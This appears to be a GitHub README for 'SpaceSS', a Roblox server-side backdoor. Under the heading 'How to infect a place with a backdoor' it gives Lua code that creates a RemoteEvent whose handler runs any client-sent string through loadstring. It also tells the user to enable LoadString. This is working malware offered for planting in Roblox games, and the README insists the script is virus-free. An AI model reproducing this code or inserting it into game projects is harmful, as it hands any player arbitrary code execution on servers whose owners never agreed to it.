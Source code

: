 # SpaceSS
Hi,there is my new project called SpaceSS.I used Backdoor.exe of k4scripts.
The script is open source! So, u can check if it has virus (the script dont have virus if anyone share make the link or the code start with -- Made by Byzakidd and its finish with -- forked on github with backdoor.exe
# How to use it

# How to infect a place with a backdoor
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "Backdoor"
backdoor.OnServerEvent:connect(function(player, SS)
    loadstring(SS)()
end)
Make sure to enable loadString on ServerScriptService
![alt text](https://user-images.githubusercontent.com/47014074/233855562-e9afa553-4279-4501-a26d-43623852d3dc.png)
# if anyone say im byzakidd report him!

